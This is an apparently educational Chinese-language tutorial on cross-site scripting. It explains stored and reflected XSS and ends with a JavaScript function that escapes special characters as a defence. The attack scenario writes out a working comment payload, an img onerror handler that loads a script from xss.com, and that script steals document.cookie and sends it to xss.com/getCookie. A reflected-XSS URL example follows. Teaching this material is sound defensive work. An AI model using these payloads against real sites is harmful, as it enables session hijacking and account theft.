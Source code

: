 ## XSS(Cross-Site Scripting)
`xss`攻击中文名叫做跨站脚本攻击，其中两个关键词，一个是`跨站`, 一个是`脚本`。 `跨站`意味着攻击者在别的主机上进行了某些操作，然后另一个主机上的用户在不知觉的情况下发生了不知情的意料之外的事。也中模式决定了攻击只可能发生在动态网站上，纯静态的网站无法被攻击。`脚本`意味着客户端的代码遭到了篡改或者注入。因此，防范`xss`攻击的方法就是两种：
  1. 网站做成纯静态的。
  2. 防止代码的注入或者串改。

显而易见，第一种方法是不合实际的。那么就需要在第二种方案上下功夫。

### 攻击场景
假设你是一个黑客，你发现网站A上有一个提交评论的输入框。如下图：
![box](./images/xss_input.jpg)

这时候你输入了这么一段代码：
```html
<img
onerror="s=createElement('script');body.appendChild(s);s.src='//xss.com/xss.js';" src="nothing">
```
然后你在`xss.com`的网站下放了这么一个`xss.js`的文件
```js
  (function () {
    const cookie = document.cookie
    const image = new Image()
    image.src = `//xss.com/getCookie?cookie=${cookie}`
  })()
```
假设一个网站A的正常用户访问了展示评论列表的页面时，如果你在评论框里输入的内容没有经过过滤就直接展示的情况下。那么就会在评论列表页插入一个`img`标签，由于这个`img`的`src`指向的是一个无效的地址，那么就会触发`onerror`事件，从而去加载`xss.com/xss.js`文件。而`xss`干的事就是将你的`cookie`发送到指定的网站。从而完成一次`xss`攻击。

黑客拿到了你的`cookie`就可以通过这个`cookie`访问你在A网站的账号，从而盗取信息。

### `xss`攻击类型
`xss`攻击主要有两种类型
- 存储型攻击
- 反射性攻击

上面那个场景说的就是存储新攻击，攻击者将恶意的脚本通过提交评论等途径存储到服务器，当某个用户访问页面时，如果该页面的信息是从存储了恶意代码的数据库里拉取的，便有可能发生`xss`攻击。反射性攻击主要做法是将脚本代码加入URL地址的请求参数里，比如：
```
http://xss.demo?a=<script>alert(document.cookie)</script>
```
如果一个页面里的脚本会去解析`URL`里的数据，并不做过滤进展示在页面，便会发生以上攻击。

### 防范
防范`xss`攻击的主要方式就是对特殊字符进行过滤。无论是在用户输入还是在页面展示时都进行过滤。当然你也可以设置一些白名单，对某些信任的内容不进行过滤。比如你可以这样对内容进行过滤：
```js
function xssFilter(str) {
  const escapeMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '`': '&#x60;'
  }
  const keysReg = new RegExp(Object.keys(escapeMap).join('|'), 'g')
  return str.replace(keysReg, key => escapeMap[key])
}
```
